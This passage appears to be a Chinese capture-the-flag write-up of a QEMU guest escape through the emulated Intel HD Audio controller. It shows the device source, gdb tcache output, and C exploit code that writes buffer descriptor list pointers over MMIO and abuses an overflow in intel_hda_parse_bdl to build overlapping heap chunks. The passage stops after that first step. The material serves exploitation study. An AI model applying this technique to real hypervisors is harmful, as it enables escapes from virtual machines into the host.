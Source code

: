 ```c {hide=true}
/* hw\audio\intel-hda.c */
static void intel_hda_class_init_ich9(ObjectClass *klass, void *data)
{
    DeviceClass *dc = DEVICE_CLASS(klass);
    PCIDeviceClass *k = PCI_DEVICE_CLASS(klass);

    k->device_id = 0x293e;
    k->revision = 3;
    set_bit(DEVICE_CATEGORY_SOUND, dc->categories);
    dc->desc = "Intel HD Audio Controller (ich9)";
}

static const TypeInfo intel_hda_info_ich9 = {
    .name          = "ich9-intel-hda",
    .parent        = TYPE_INTEL_HDA_GENERIC,
    .class_init    = intel_hda_class_init_ich9,
};
```



# 解题过程

## Step1: Prepare Overlapped chunk

在`intel_hda_parse_bdl`的`g_malloc`处下断点，查看bins可以发现，tcache中0x100大小的chunk地址一般情况下都是连续的：

```gdb
 ► 0x64defb919941 <intel_hda_parse_bdl+81>     call   g_malloc_n@plt              <g_malloc_n@plt>

tcachebins
0x100 [  7]: 0x7c93003356d0 —▸ 0x7c93003355d0 —▸ 0x7c93003354d0 —▸ 0x7c93003353d0 —▸ 0x7c93003352d0 —▸ 0x7c93003351d0 —▸ 0x7c93003350d0 ◂— 0
```

故我们通过`intel_hda_parse_bdl`可以将7个0x100大小的tcache bin全部申请出来，并利用溢出构造overlap chunk：

```c
    hda_mmio_mem = mmio_init((void *)HDA_VA, 0xfebf0000, 0x2000);

    data = mmap(0, HUGEPAGE_SZ, PROT_READ|PROT_WRITE,
            MAP_FIXED|MAP_PRIVATE|MAP_ANON|MAP_HUGETLB|MAP_POPULATE, -1, 0);
    data_pa = gva_to_gpa(data);
    printf("[*] data_pa: %p\n", (void *)data_pa);

    for (size_t st = 0; st < 8; st++) {
        uint64_t addr = data_pa+0x2000*st;
        mmio_write64(hda_mmio_mem, ST_REG(st, ICH6_REG_SD_BDLPL), addr&0xffffffff);
        //mmio_write64(hda_mmio_mem, ST_REG(st, ICH6_REG_SD_BDLPU), addr>>32); // data_pa只用得到低32bit
    }

    // step1: overlap
    set64(5, 0xf8, 0x415);          // fake chunk6.size
    for (int st = 6; st >= 0; st--) // 为了更直观，chunk地址和st序号都是由小到大，故此处逆序申请
        parse_bdlp(st, 0x10-2);     // chunk size = 0x100
    set64(6, 0x408, 0xf5);          // fake next size
    parse_bdlp(6, 0x41-2);          // free chunk6; alloc 0x410 chunk
```
